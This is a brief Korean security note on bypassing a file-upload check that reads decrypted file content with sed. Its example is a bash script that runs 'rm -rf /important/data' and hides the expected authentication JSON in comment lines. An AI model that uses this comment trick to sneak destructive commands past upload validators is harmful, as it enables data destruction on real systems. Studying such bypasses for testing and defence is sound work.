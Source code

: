 # FILE UPLOAD 공격 우회  
  
파일의 복호화된 내용을 sed로 읽고 검사하는 경우 주석 처리로 우회 가능  
#!/bin/bash  
rm -rf /important/data  
#{  
#"key": "authentication code"  
#}  
